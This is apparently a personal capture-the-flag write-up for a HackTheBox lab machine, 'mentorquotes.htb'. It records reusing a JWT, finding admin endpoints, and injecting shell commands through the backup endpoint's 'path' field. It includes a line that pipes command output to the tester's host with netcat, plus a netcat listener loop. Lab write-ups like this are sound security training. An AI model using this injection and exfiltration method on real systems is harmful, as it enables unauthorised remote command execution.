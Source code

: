 Using the API documentation at http://api.mentorquotes.htb/redoc, grabbed valid JWT for user `james`
![[Pasted image 20240904203532.png]]
```JWT
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

Discovered accounts 
![[Pasted image 20240904203804.png]]
![[Pasted image 20240904203812.png]]

Going to `/admin`
![[Pasted image 20240904204003.png]]
We now have 2 directories under `/admin` -` /check` & `/backup`

- check
![[Pasted image 20240905142417.png]]
- backup
GET /backup
![[Pasted image 20240905142452.png]]
So, switched to POST
![[Pasted image 20240905142509.png]]
Now it says unprocessable entity which means it expects other key:value in request parameter

Sending the below request
```json
{
  "body": "",
  "path": ""
}
```
![[Pasted image 20240905142619.png]]

We get "INFO":"Done!"
- Entered command
![[Pasted image 20240905142807.png]]
- Managed to capture ICMP traffic using `tcpdump`
![[Pasted image 20240905142834.png]]
- Attempting to get reverse shell, but it seems to be disconnecting right away
![[Pasted image 20240905142918.png]]
![[Pasted image 20240905142953.png]]

- Output redirection
![[Pasted image 20240905150754.png]]
![[Pasted image 20240905150801.png]]

Using the same technique, ran `id | nc -nv 10.10.14.7 4444;`
![[Pasted image 20240905150841.png]]
Turns out we are actually root on this machine

- Started a netcat loop to listen in on all output redirects on port 4444
```bash
while true; do
  nc -nlvp 4444
done
```

